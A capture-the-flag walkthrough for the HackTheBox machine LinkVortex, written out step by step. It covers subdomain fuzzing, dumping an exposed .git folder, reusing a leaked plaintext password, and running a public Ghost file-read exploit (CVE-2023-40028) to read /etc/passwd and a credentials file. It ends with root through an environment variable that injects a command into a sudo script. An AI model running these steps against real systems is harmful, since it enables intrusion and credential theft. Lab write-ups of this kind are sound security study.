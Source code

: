 # LinkVortex CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **LinkVortex** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/LinkVortex). 
---

we see open ports 22 and 80

![scn](imgs/scn.png "scn")

we need to add `linkvortex.htb` to /etc/hosts

![mp](imgs/mp.png "mp")

we can use ffuf to enumerate subdomains

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://linkvortex.htb -H 'Host: FUZZ.linkvortex.htb' -fs 230
```

![ff](imgs/ff.png "ff")

we found vhost `dev`

![dv](imgs/dv.png "dv")

we cam also scan for directories on main page and on subdomain

we found `.git` folder using gobuster

![go](imgs/go.png "go")

now we can use git-dumper to dump the github folder

```
git-dumper http://dev.linkvortex.htb/.git .
```

now we can use git to checkout the files, we can try using 

```
$ git log --oneline --graph --decorate --all
$ git diff
$ git diff --cached
```

![gt](imgs/gt.png "gt")

we found some plain text password

from dumping .git folder we also found Dockerfile.ghost

![doc](imgs/doc.png "doc")

we can find login form by going to `linkvortex.htb/ghost`, we need to find a username

![lg](imgs/lg.png "lg")

by looking at the posts we see a lot of them were wrote by admin

![ad](imgs/ad.png "ad")

we can try to login as admin in email format: `admin@linkvortex.htb` , we see error saying wrong password

![p](imgs/p.png "p")

if we test other user we see that there is no user with this login so we see a flawed logic

![nu](imgs/nu.png "nu")

now we can test plain text password we found to login

it worked, we see some admin panel

![pn](imgs/pn.png "pn")

i didnt found a good way to upload a file or create reverse shell

i found some CVE about ghost version running on machine, we can use explot from github `https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028`

```
$ git clone https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028
$ cd Ghost...
$ ./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb

> /etc/passwd
```

we have file read from a server, i tested the /etc/passwd and it works

![etc](imgs/etc.png "etc")

then we can test configuration file that was mentioned in dockerfile

```
> /var/lib/ghost/config.production.json
```

![cf](imgs/cf.png "cf")

we also see some credentials 

i tried using them to login to ssh, and it worked 

![us](imgs/us.png "us")

now we can view sudo -l output

![sd](imgs/sd.png "sd")

and the script mentioned in sudo -l

![sc](imgs/sc.png "sc")

to exploit this first we need to create symlink to some folder 

```
$ cd /tmp
$ ln -sf /TEST test.png
```

then we need to execute this command 

```
$ CHECK_CONTENT=bash sudo /usr/bin/bash /opt/ghost/clean_symlink.sh test.png
```

![rr](imgs/rr.png "rr")

The script checks if the environment variable CHECK_CONTENT is set, and then runs it like a command using if $CHECK_CONTENT. Normally, this variable should just be “true” or “false”, but because the script doesn't use quotes or proper checks, we can set it to any command. When we run `CHECK_CONTENT=bash sudo /usr/bin/bash /opt/ghost/clean_symlink.sh test.png`, the script ends up running `bash as root`. This works because the script is executed with sudo, and the env_keep setting allows us to pass the CHECK_CONTENT variable into the root environment. As a result, we get a root shell.


![cc](imgs/cc.png "cc")

now we have root access 

and root flag

![fl](imgs/fl.png "fl")

# MACHINE PWNED
